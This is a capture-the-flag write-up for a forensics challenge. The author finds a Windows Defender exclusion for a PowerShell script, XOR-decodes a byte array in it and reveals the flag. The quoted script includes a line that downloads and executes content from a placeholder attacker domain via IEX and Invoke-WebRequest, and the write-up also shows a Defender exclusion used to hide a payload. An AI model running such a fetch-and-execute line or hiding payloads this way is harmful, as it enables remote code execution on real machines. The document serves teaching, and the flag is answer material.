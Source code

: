 ### No Grep

Category: **Forensics**

"Use the VM from Hourglass to find the second flag on the system"

Back at it again, this was a pretty straight forward challenge, involving some script analysis and viewing Microsoft Defender Exclusions.

If we go to defender settings -> Virus & Threat Protection -> Exclusions. We will see a certain file getting excluded from windows defender to ignore. Very odd if you ask me.

The full path that we can see is *C:\Windows\Web\Wallpaper\Theme2\update.ps1"

![](path.png)

Let's visit the path and inspect the script content.

```powershell
$String_Key = 'W0wMadeitthisfar'

$NewValue = '$(' + (([int[]][char[]]$String | ForEach-Object { "[char]$($_)" }) -join '+') + ')'

$chars = 34, 95, 17, 57, 2, 16, 3, 18, 68, 16, 12, 54, 4, 82, 24, 45, 35, 0, 40, 63, 20, 10, 58, 25, 3, 65, 0, 20

$keyAscii = $String_Key.ToCharArray() | ForEach-Object { [int][char]$_ }

$resultArray = $chars -bxor $keyAscii

IEX (Invoke-WebRequest -Uri 'https://somec2attackerdomain.com/chrome.exe' -UseBasicParsing).Content

```

We can see what this script is doing in plaintext, doesent to be very obfuscated right ? 

First thing to note here is the $String_Key variable as well as $chars.

Looking at $resultArray, we can also see that those chars are getting *xorred* with the key we saw earlier. 

Decrypt this by using cyberchef or write your own xor decryption script with python or try fixing up the powershell code to print the result.

![](decode.png)

**uoftctf{0dd_w4y_t0_run_pw5h}**
